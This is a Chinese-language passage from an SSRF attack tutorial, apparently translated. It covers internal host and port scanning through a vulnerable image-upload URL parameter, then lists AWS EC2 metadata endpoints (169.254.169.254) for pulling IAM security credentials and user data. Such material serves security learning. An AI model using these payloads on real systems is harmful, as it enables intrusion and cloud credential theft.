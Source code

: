 首先，SSRFs 可用于扫描网络中其他可到达的机器。这是通过向易受攻击的端点提供一系列内部 IP 地址[并查看服务器是否对每个地址做出不同的响应来实现的。利用服务器行为的差异，我们可以收集关于网络结构的信息。](https://en.wikipedia.org/wiki/Reserved_IP_addresses)

**比如，当你要求:**

`https://public.example.com/upload_profile_from_url.php?url=10.0.0.1`

服务器的响应是:

`Error: cannot upload image: http-server-header: Apache/2.2.8 (Ubuntu) DAV/2`

当您请求时:

`https://public.example.com/upload_profile_from_url.php?url=10.0.0.2`

服务器的响应是:

`Error: cannot upload image: Connection Failed`

我们可以推断出 10.0.0.1 是网络上有效主机的地址，而 10.0.0.2 不是。

# 端口扫描和服务指纹

SSRFs 还可以用于端口扫描网络机器，并显示这些机器上运行的服务。开放端口为机器上运行的服务提供了一个很好的指示器，因为服务有运行它们的默认端口，端口扫描将您带到端口，手动检查任何类型的隐藏服务。这有助于您计划对服务的进一步攻击。

例如，当您向内部服务的端口 80 发送请求时(如 10.0.0.1:80)，如果服务器响应:

`Error: Cannot Upload Image: http-server-header: Apache/2.2.8 Ubuntu) DAV/2`

当您向同一台服务器上的端口 11 发送请求时，服务器会做出如下响应:

`Error: Cannot Upload Image: Connection Failed`

我们可以推断服务器上的端口 80 是开放的，而端口 11 不是。

# 提取实例元数据

这是我个人最喜欢的。亚马逊弹性计算云([亚马逊 EC2](https://aws.amazon.com/ec2) )是一项允许商人公开运行应用程序的服务。它有一个叫做“实例元数据”的服务。这使得 EC2 实例能够访问一个 API，该 API 返回关于实例本身的数据(在地址 169.254.169.254 上)。类似于 EC2 的实例元数据 API 服务也可以在 Google Cloud 上获得。默认情况下，这些 API 端点是可访问的，除非它们被网络管理员特别阻止或禁用。这些服务可能泄露的信息通常极其敏感，可能会允许攻击者将 SSRFs 升级为严重的信息泄漏，甚至可能让攻击者操纵服务并获得 RCE(远程代码执行)。

## 查询 AWS EC2 元数据

这些端点揭示了 API 密钥、AWS S3 令牌和密码等信息。

这里有几个特别有用的，可以先试试:

```
-   [http://169.254.169.254/latest/meta-data/](http://169.254.169.254/latest/meta-data/) : returns the list of available metadata that you can query.-   [http://169.254.169.254/latest/meta-data/local-hostname/](http://169.254.169.254/latest/meta-data/local-hostname/) : returns the internal hostname used by the host.-   [http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME](http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME) : returns the security credentials of that role.-   [http://169.254.169.254/latest/dynamic/instance-identity/document](http://169.254.169.254/latest/dynamic/instance-identity/document) : reveals the private IP address of the current instance.-   [http://169.254.169.254/latest/user-data/](http://169.254.169.254/latest/user-data/) : returns user data on the current instance.
```
